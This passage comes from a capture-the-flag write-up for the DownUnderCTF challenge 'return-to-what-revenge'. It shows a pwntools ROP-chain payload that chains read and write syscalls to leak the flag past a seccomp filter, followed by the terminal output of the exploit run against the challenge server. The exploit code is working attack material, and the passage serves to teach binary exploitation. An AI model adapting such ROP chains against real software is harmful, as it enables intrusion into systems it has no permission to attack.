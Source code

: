 ```py
'''
payload += p64(pop_rdi)
payload += p64(0x3)
payload += p64(pop_rsi)
payload += p64(flag)
payload += p64(pop_rdx)
payload += p64(0x100)
payload += p64(pop_rax)
payload += p64(0x0)
payload += p64(syscall)
```
Then we do write syscall, writing the flag to the stdout:-

```py
'''
write(1, flag, 0x100);
'''
payload += p64(pop_rdi)
payload += p64(1)
payload += p64(pop_rsi)
payload += p64(flag)
payload += p64(pop_rdx)
payload += p64(0x100)
payload += p64(pop_rax)
payload += p64(0x1)
payload += p64(syscall)

p.sendlineafter("?\n", payload)
p.interactive()
```

Running the exploit:-

```r
0 [01:41:15] vagrant@oracle(oracle) DUCTF> python3 return-to-what-revenge.py 
[+] Opening connection to chal.duc.tf on port 30006: Done
[*] Analyzing /home/vagrant/CTFs/DUCTF/return-to-what-revenge
[*] Analyzing /home/vagrant/CTFs/DUCTF/libc6_2.27-3ubuntu1_amd64.so
[*] LEAK:   0x7f9825f2c9c0
[*] LIBC:   0x7f9825eac000
[*] Switching to interactive mode
DUCTF{secc0mp_noT_$tronk_eno0Gh!!@}
\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00[*] Got EOF while reading in interactive
$ 
[*] Interrupted
[*] Closed connection to chal.duc.tf port 30006
0 [01:41:24] vagrant@oracle(oracle) DUCTF> 
```